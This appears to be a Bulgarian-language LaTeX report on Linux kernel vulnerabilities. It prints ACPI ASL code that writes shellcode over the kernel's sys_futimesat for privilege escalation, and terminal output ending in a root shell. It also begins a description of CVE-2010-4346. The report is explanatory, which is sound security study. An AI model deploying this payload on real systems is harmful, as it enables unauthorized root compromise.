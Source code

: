 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\paragraph{}
Той компилира ASL\footnote{ACPI Source Language} код до AML\footnote{ACPI Machine Language}, който презаписва ACPI методa, използван при промяна на статуса на LID устройството (при отваряне и затваряне на капака на лаптоп). Когато методът се извика, той презаписва \textit{OperationRegion} на физическият адрес, където \textit{sys\_futimesat} се намира и презаписва паметта чрез \textit{Store}, като по този начин стига до privilege escalation при извикването на \textit{sys\_futimesat}.
\begin{verbatim}
DefinitionBlock ("lid.aml", "SSDT", 2, "", "", 0x00001001) {
  Method (\_SB.LID._LID, 0, NotSerialized) {
    OperationRegion (KMEM, SystemMemory, PHYADDR, 0x392)
    Field(KMEM, AnyAcc, NoLock, Preserve) {
      HACK, 0x392
    }
    Store (Buffer () {
      0x55, 0x48, 0x89, 0xe5, 0x53, 0x48, 0x83, 0xec,
      0x08, 0x48, 0xc7, 0xc3, 0x24, 0x24, 0x24, 0x24,
      0x48, 0xc7, 0xc0, 0x24, 0x24, 0x24, 0x24, 0xbf,
      0x00, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x89,
      0xc7, 0xff, 0xd3, 0x48, 0xc7, 0xc0, 0xb7, 0xff,
      0xff, 0xff, 0x48, 0x83, 0xc4, 0x08, 0x5b, 0xc9,
      0xc3 }, HACK)
    Return (One)
  }
}
\end{verbatim}
\paragraph{}
Този exploit се отнася само за 64-битови ОС и зависи от наличието на LID устройство.
\begin{verbatim}
$ gcc american-sign-language.c -o american-sign-language
$ ./american-sign-language
[+] resolving required symbols...
[+] checking for world-writable custom_method...
[+] checking for an ACPI LID device...
[+] poisoning ACPI tables via custom_method...
[+] triggering ACPI payload via LID device...
[+] triggering exploit via futimesat...
[+] launching root shell!
# id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}


\section{CVE-2010-4346 CVSS Score 2.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{install\_special\_mapping} в\textit{ mm/mmap.c} в Linux ядрата преди 2.6.37-rc6 не извиква функцията \textit{security\_file\_mmap}, което позволява да се заобиколят зададените \textit{mmap\_min\_addr} ограничения и евентуално да се извърши атака с дереференциране на нулев указател, чрез специално създадена програма на асемблер.
\end{document}

